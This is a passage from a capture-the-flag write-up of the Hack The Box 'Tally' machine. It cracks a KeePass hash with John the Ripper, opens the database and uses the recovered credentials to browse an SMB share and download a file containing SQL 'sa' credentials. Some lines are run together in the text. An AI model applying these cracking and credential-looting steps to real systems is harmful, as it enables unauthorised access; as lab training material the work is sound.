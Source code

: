```text
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

We get a hit back informing us that the password is “_simplementeyo_”.

Now we have all the information we need to open the KeePass database. To do that from the command line, we’ll use the _kpcli_ program.

```text
root@kali:~/Desktop/htb/tally# kpcli --kdb tim.kdbx
```

Going through the entries, we find two credentials. One of the credentials _Finance/Acc0unting_ labelled _Tally ACCT share_ will probably give us access to SMB, so we’ll start there.

### Port 139 SMB <a id="8cb7"></a>

Let’s log into the _ACCT_ share using the credentials we found.

```text
root@kali:~/Desktop/htb/tally/smb# smbclient //10.10.10.59/ACCT -U FinanceEnter WORKGROUP\Finance's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                            D        0  Mon Sep 18 01:58:18 2017
  ..                           D        0  Mon Sep 18 01:58:18 2017
  Customers                    D        0  Sun Sep 17 16:28:40 2017
  Fees                         D        0  Mon Aug 28 17:20:52 2017
  Invoices                     D        0  Mon Aug 28 17:18:19 2017
  Jess                         D        0  Sun Sep 17 16:41:29 2017
  Payroll                      D        0  Mon Aug 28 17:13:32 2017
  Reports                      D        0  Fri Sep  1 16:50:11 2017
  Tax                          D        0  Sun Sep 17 16:45:47 2017
  Transactions                 D        0  Wed Sep 13 15:57:44 2017
  zz_Archived                  D        0  Fri Sep 15 16:29:35 2017
  zz_Migration                 D        0  Sun Sep 17 16:49:13 2017
8387839 blocks of size 4096. 709452 blocks available
```

After enumerating all the directories, we find two interesting entries. The first is in the _zz\_Archived\SQL_ directory.

```text
smb: \> cd \zz_Archived\SQLsmb: \zz_Archived\SQL\> dir
  .                           D        0  Fri Sep 15 16:29:36 2017
  ..                          D        0  Fri Sep 15 16:29:36 2017
  conn-info.txt               A       77  Sun Sep 17 16:26:56 2017
8387839 blocks of size 4096. 709178 blocks availablesmb: \zz_Archived\SQL\> get conn-info.txt
getting file \zz_Archived\SQL\conn-info.txt of size 77 as conn-info.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

View the content of the file on the attack machine.

```text
old server detailsdb: sa
pass: YE%TJC%&HYbe5Nwhave changed for tally
```
